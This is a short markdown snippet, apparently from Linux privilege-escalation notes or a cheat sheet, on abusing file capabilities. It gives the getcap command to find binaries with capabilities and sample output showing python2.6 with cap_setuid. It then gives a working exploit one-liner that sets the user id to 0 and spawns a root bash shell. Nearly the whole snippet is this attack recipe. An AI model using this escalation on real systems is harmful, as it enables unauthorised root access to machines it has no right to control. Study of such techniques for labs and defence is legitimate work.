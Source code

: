 ### Capabilities 
 
 ## Type Command
 
 getcap -r / 2>/dev/null
 
 ## Output
 
    /usr/bin/python2.6 = cap_setuid+ep
    
 ## Exploit
 
    /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
   
